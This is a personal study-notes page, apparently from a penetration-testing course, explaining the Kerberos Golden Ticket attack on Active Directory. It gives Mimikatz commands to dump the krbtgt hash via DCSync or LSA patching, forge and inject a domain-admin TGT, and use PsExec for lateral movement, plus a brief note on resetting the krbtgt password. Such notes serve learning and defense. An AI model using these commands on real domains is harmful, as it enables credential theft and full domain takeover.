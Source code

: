 public:: true

- As we saw in the [[Kerberos]] authentication specification, [TGT](((655a4269-21dc-4947-a21d-5c89e404b561)))s are always encrypted with the password (NTML hash) of the *krbtgt* user, and valid issued TGTs specify privileges of the requesting user.
- The [Golden Ticket](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf) technique aims to steal the password NTLM hash of the *krbtgt* user, then use it to offline forge TGTs filled with additional privileges for any domain-user on-demand.
- #+BEGIN_IMPORTANT
  You can think at **Golden Ticket** as a **passepartout for any resource** in the domain.
  #+END_IMPORTANT
- *[KRBTGT account](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#krbtgt-account)* recap
	- Is a local default account that acts as a service account for the [Key Distribution Center](((6565b3f7-61b6-4b2a-a59d-01d20e6acd96))) (KDC) service.
	- This account cannot be deleted.
	- The account name cannot be changed.
	- KRBTGT is also the [Service Principal Name](((655e0fad-5b48-42ce-b82a-09cd0e4a9322))) (SPN) used by the KDC for a Windows Server domain.
	- The account is created automatically when a new domain is created.
		- A strong password is assigned automatically.
		- Its password **is not** automatically changed.
	- The password of the KRBTGT account is known only by the Kerberos service ([DC](((65a7a0b2-f9d2-436b-b4f2-369427fa7489)))).
		- The hash of its password is used to encrypt/decrypt [TGT](((655a4269-21dc-4947-a21d-5c89e404b561)))s.
		- The hash of its password is used to sign/verify [PAC](((655f3e21-772b-48c3-b6e6-bd342fb92403)))s.
	- The KRBTGT account stores the two most recent passwords in the password history.
- Retrieve the *krbtgt* password hash
	- Via [[DCSync]]
		- If we have enough privileges to perform DCSync, then we could request the *krbtgt* password hash to any DCs.
		  ```mimikatz
		  lsadump::dcsync /user:krbtgt
		  ```
	- With [[Mimikatz]]
		- We need access to a domain controller with a local administrator account in order to successfully run Mimikatz.
		- From a compromised domain controller
		  ```mimikatz
		  privilege::debug
		  lsadump::lsa /patch
		  ```
- Forge TGT with stolen *krbtgt* password (NTML hash) and inject it in-memory
	- Ingredients
		- *krbtgt* password hash
		- Domain [SID]()
	- With [[Mimikatz]] from a domain-joined machine (not the DC)
	  id:: 65a7d51a-e45d-454a-b4fd-7f314589d634
		- First delete any existing loaded tickets (TGT, TGS) with [`kerberos::purge`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#purge)
		  ```mimikatz
		  kerberos::purge
		  ```
		- Forge and inject fully privileged TGT with [`kerberos::golden`](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden--silver)
		  ```mimikatz
		  kerberos::golden \
		  	/user:jen \
		      /domain:corp.com \
		  	/sid:S-1-5-21-1987370270-658905905-1781884369 \
		      /krbtgt:1693c6cefafffc7af11ef34d1c788f47 \
		      /ptt
		  ```
			- `/user` is the username you want to impersonate
			  logseq.order-list-type:: number
			- `/domain` is the fully qualified domain name
			  logseq.order-list-type:: number
			- `/sid` is the SID of the domain
			  logseq.order-list-type:: number
			- `/krbtgt` is the hash of the *krbtgt* account password
			  logseq.order-list-type:: number
			- `/ptt` no output in file, just inject the golden ticket in current session
			  logseq.order-list-type:: number
			- Since this ticket is not emitted by the real KDC, it's not limited to allowed cipher methods.
			- By default, the Golden Ticket default lifetime is *10 years*, but can be configured via `/startoffset`, `/endin`, `/renewmax` *(in munutes)*.
			- By default the user ID is `500` (RID of built-in administrator) for the requesting user, but can be configured via `/id`.
			- By default assigned group IDs are `513,512,520,518,519` for well-known Administrator's groups, but can be configured via `/groups`.
				- The first specified group ID of the list is set as primary group for the user.
		- With the forged TGT loaded in-memory we can spawn a privileged shell directly from Mimikatz via [`misc::cmd`](https://tools.thehacker.recipes/mimikatz/modules/misc/cmd) and from there move laterally with [[psexec]] 
		  ```cmd
		  PsExec.exe \\dc1 cmd.exe
		  ```
			- By checking privileges with `whoami /groups` we can confirm that now *jen* is part of the **Domain Admins** group!
- #+BEGIN_WARNING
  Please note that we need to use [[Overpass-The-Hash]] (e.g. calling `PsExec.exe` against the DC hostname) to make use of the newly forged TGT.
  
  If we fallback to [[NTLM Authentication]] (e.g. calling `PsExec.exe` against the DC IP address) then the TGT won't be used and we won't be able to leverage the additional privileges Mimikatz equipped into it. 
  #+END_WARNING
- Defeat Golden Ticket
	- If a domain admin realizes that the *krbtgt* account has been compromised, then he has to either
		- [Change](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#krbtgt-account-maintenance-considerations) the account password
		- [Reset](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#security-considerations) the account password
	- Luckily for us, none of these steps are [as easy as it sounds](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#security-considerations) 😈.